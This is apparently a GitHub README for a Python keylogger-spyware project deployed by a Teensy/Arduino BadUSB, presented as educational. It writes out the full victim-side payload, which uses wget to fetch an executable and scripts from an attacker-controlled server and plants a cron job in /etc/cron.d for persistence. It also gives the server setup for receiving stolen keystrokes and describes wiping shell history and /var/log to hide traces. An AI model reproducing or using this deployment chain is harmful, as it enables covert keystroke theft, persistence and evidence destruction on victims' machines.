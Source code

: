 # HID Spyware - Keylogger with Persistence & Remote Control

A Python-based spyware and keylogger project designed for educational and cybersecurity research purposes.  
This project demonstrates how a malicious actor could deploy a spyware payload using a BadUSB (Teensy/Arduino), maintain persistence on the victim's machine, and exfiltrate keystrokes remotely.

---

## 🚨 Disclaimer

**This project is strictly for educational and ethical hacking purposes.**  
Do not use it on machines or networks you do not own or have explicit permission to test.  
The author is not responsible for any misuse or illegal activities.

---

## 🖥️ Features

- **Persistence:** Uses a cron job to execute the spyware every 2 minutes.
- **Fast Deployment:** Payload automatically downloads malicious scripts and executable.
- **Cross-Platform:** Compatible with Linux & Windows (Limited efficiency on Windows).
- **Evasion:** Bypasses default Linux security, limited effectiveness on MacOS & Windows.
- **Trace Cleaning:** Deletes shell history and log files after execution.
- **Original Build:** Developed in Python with Shell scripting and BadUSB payload.

---

## 📂 Project Structure

```
Spyware/
├── spyware-server.py          # Server listening for incoming victim connections
├── keylogger.py               # Keylogger script
├── system_kernel.py           # Main spyware client
├── dist/                      # Folder containing the built executable (after PyInstaller)
├── files/                     # Directory where captured keystrokes are stored
├── payload/
│   └── payload.ino            # Arduino/Teensy payload script
├── system-edit.sh             # Shell script executed by cron to ensure persistence
├── cron-system.sh             # Cron job definition
└── README.md
```

---

## ⚙️ Prerequisites

- Python 3.x
- `pyinstaller` (For building the executable)
- A Teensy/Arduino BadUSB device
- Linux target machine (recommended)
- Basic networking knowledge

---

## 🚀 Installation & Setup

### 1. Clone the Repository

```bash
git clone https://github.com/Enstso/Spyware.git
cd Spyware
```

### 2. Generate the Executable

```bash
pyinstaller -F system_kernel.py --add-data "./keylogger.py:."
```

The executable will be generated in the `dist/` folder.

### 3. Run the web server the malicious executable and scripts are hosted :

```bash
python3 -m http.server 8000
```

---

## 🧩 How it works

### **Victim Side (Payload Execution)**

Once the Teensy/Arduino BadUSB is plugged into the victim machine, it executes the following:

```bash
cd /root/Downloads
wget http://ip_server:8000/system_kernel
chmod +x system_kernel
wget http://ip_server:8000/system-edit.sh
chmod +x system-edit.sh
cd /etc/cron.d/
wget http://ip_server:8000/cron-system.sh
chmod +x cron-system.sh
cd /root/Downloads
./system_kernel
history -c
exit
```

The payload will:

1. Download the malicious executable and scripts.
2. Add a cron job to ensure persistence (`system-edit.sh` executed every 2 minutes).
3. Clean command history to hide traces.

**Persistence Logic (`system-edit.sh`):**
- Checks if `.document1.txt` exists.
- If not, relaunches `system_kernel` and deletes `/var/log/` content.

**Cron Job (`cron-system.sh`):**
```
2 * * * * root /root/Downloads/system-edit.sh
```

---

### **Attacker Side (Server Listening)**

1. Start the spyware server:

```bash
python3 spyware-server.py -l 12345
```

**Optional:** To see all available options:

```bash
python3 spyware-server.py --help
```

2. Make sure the `files/` directory exists:

```bash
mkdir files
```

All captured keystrokes from victims will be stored here.

---

## 📜 Scenario Overview

1. **Attacker:** Starts the spyware server on port `12345`.
2. **Attacker:** Serves the spyware executable and scripts on port `8000`.
3. **Victim:** BadUSB is plugged in → payload is executed → spyware & scripts downloaded.
4. **Spyware:** 
   - Connects to attacker's server.
   - Starts keylogging and sends captured keystrokes.
   - Runs persistently via cron job every 2 minutes.
   - Deletes system logs and history to erase evidence.
5. **Attacker:** Receives and stores keystrokes in `files/` folder.

---

## ⚠️ Important Notes

- The spyware is more effective on **Linux** systems.  
- It bypasses default Linux protections but has limited effectiveness on **Windows** and **MacOS**.
- This project is intended for controlled environments and cybersecurity demonstrations only.

---

## 🧩 Future Improvements

- Implement stealthier persistence techniques.
- Add encryption for communication and stored data.
- Improve Windows and MacOS compatibility.
- Add automatic detection of victim IP and OS.
